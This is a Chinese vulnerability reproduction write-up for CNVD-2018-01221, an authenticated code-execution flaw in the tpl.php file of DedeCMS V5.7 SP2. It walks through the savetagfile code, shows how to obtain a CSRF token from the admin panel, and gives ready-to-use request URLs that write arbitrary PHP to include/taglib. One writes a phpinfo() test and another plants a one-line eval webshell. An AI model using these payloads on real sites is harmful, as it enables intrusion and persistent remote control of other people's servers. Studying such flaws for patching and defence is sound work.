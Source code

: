 # （CNVD-2018-01221）DedeCMS V5.7 SP2存在代码执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2866](https://www.zhihuifly.com/t/topic/2866)

# （CNVD-2018-01221）DedeCMS V5.7 SP2存在代码执行漏洞

## 一、漏洞简介

DedeCMS V5.7 SP2版本中tpl.php存在代码执行漏洞，攻击者可利用该漏洞在增加新的标签中上传木马，获取webshell

## 二、漏洞影响

## 三、复现过程

需要登录后台

根据公开的漏洞知道tpl.php里面251-281行存在代码执行漏洞，打开tpl.php文件

![image](img/d99da34b0f5d65578e26539ef985fd9c.png)

### 代码分析

```
(1)此处定义了一个savetagfile的函数，首先做一个判断，参数“action”是否等于savetagfile，如果等于，就进行下一步
(2)csrf_chack(),这里有一个csrf检验的函数，我们需要加上token来绕过，token是登陆的令牌，当我们向服务器发送登录请求时，在客户端会生成一个用于验证的令牌。
(3)正则表达式匹配，详情参见https://www.runoob.com/regexp/regexp-rule.html*
   [a-z0-9_-]{1,}的意思是，匹配所有包含一个以上的字母数字下划线和横杠，后面的\.意思是匹配小数点
   所以最终那个判断条件的意思是如果参数filename不符合上述的匹配条件，那么就不允许修改操作的进行，所以文件名必须要.lib.php结尾。
(4)preg_replace的意思是执行一个正则表达式的搜索和替换，我们可以通过例子来分析一下,发现得到的$tagname的值为moonsec
(5)stripslashes()的作用是引用用一个引用字符串，此处没有多大的作用
(6)最后是把$content里的内容写入到相对用的路径里，问题就出在了这里，这一部分代码除了对写入的文件名字做了简单的过滤，除了有一个csrf防护之外，其他并没有什么安全措施，     
   导致我们可以任意写入代码，如果我们直接写入一句话木马，那么就可以直接连上去拿webshell了 
```

根据上面的代码知道要上传的参数有：action,token,filename,content.现在只剩下获取token了，要怎么才能获取到token呢？我们再去tpl.php里看一下，发现action的参数有很多，比如del，upoladok，edit，upload等等，但只有传入upload的时候页面才会回显正常，而其他的都会显示token异常，所以只能通过action=upload来获取token。

### 漏洞复现

获取token

```
http://0-sec.org/dede/tpl.php?action=upload 
```

![image](img/1459432538da7212ba5139b3a25c8557.png)

然后查看网页源代码，找到token

![image](img/3d999fc3693f2524807b2657af8a1ca9.png)

构造payload如下

```
http://0-sec.org/dede5.7/dede/tpl.php?filename=(文件名随意).lib.php&action=savetagfile&content=%3C?php%20phpinfo();?%3E&token=f1ccc319d5c897a3a362335792a21e05(替换你复制的token) 
```

访问了成功写入

![image](img/bb4b44a582af03df930d8ed1964157fc.png)

访问写入的文件

```
http://0-sec.org/include/taglib/（你上传的文件名）.lib.php 
```

![image](img/bb3534a0be506b2e75062f754310c031.png)

也可以构造一句话木马payload

```
http://0-sec.org/dede5.7/dede/tpl.php?filename=caidao.lib.php&action=savetagfile&content=%3C?php%20@eval($_POST[%27dylan%27])?%3E&token=2d7ef87e9828edaad2d7b6bbe37f1929 
```

![image](img/c8635600d4a44c2f39976ff9ce6cf97d.png)